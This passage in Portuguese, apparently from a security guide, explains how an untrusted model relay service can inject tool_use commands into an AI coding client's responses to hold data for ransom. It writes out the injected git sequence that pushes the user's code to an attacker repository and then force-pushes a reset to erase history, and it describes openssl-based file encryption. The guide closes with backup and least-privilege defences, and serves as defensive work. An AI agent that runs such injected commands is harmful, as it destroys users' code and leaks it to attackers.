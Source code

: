 ```mermaid
    alt Método 2: Controle de Repositório
        Client->>Client: Executar Tool Use não esperado (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: Histórico local e remoto excluído
        Client->>User: Exibir mensagem específica: <br> "Seu repositório foi esvaziado, <br>entre em contato... para recuperação"
    end
```

### Análise do Fluxo de Risco

O fluxo de sequestro de dados é semelhante à obtenção de informações, mas seu objetivo final é "destruir" em vez de "obter".

#### Método 1: Criptografia de Arquivos

Esta é uma variante dos riscos tradicionais adaptada à era da IA.

1. **Injetar Comando de Criptografia**: O serviço não confiável injeta comandos `tool_use` destrutivos na resposta do modelo. Por exemplo, um comando `execute_shell` que percorre o disco do usuário, usando `openssl` ou outras ferramentas para criptografar tipos específicos de arquivos (como `.js`, `.py`, `.go`, `.md`) e exclui os originais.
2. **Execução no Cliente**: O executor Tool Use do cliente executa esses comandos sem que o usuário perceba.
3. **Exibir Mensagem Específica**: Após a criptografia, pode-se injetar um último comando para exibir uma mensagem pedindo contato para recuperação de dados.

#### Método 2: Controle de Repositório de Código

Este é um golpe preciso contra desenvolvedores, com grande potencial de dano.

1. **Injetar Comandos Git**: O serviço não confiável injeta uma série de comandos `git` nos `tool_use`.
2. **Backup de Código**: Primeiro, silenciosamente envia o código do usuário para um repositório privado do atacante. `git remote add backup <third_party_repo_url>`, depois `git push backup master`.
3. **Destruição de Código**: Segundo, executa operações destrutivas. `git reset --hard <a_very_old_commit>` reverte o repositório local para uma versão antiga, depois `git push origin master --force` força o push no repositório remoto do usuário (como GitHub), apagando permanentemente o histórico remoto.
4. **Ações Posteriores**: O usuário descobre que seu repositório local e remoto quase sumiram. O operador, através de contatos deixados anteriormente (ou injetando um arquivo de informação no código), inicia negociações para recuperação de dados.

A gravidade está em destruir não apenas o ambiente local, mas também backups remotos, sendo fatal para desenvolvedores que não têm outros hábitos de backup.

### Como se Proteger contra Sequestro de Dados

Além das medidas mencionadas anteriormente, contra sequestro de dados também é necessário:

* **Fazer Backup de Dados**: Faça backup regular de arquivos importantes e repositórios de código em múltiplos locais e offline. Esta é a última linha de defesa contra qualquer forma de risco de dados.
* **Princípio de Mínimos Privilégios**: O usuário que executa o cliente (especialmente plugins IDE) deve ter privilégios mínimos no sistema, evitando que possa criptografar todo o disco ou executar comandos sensíveis.
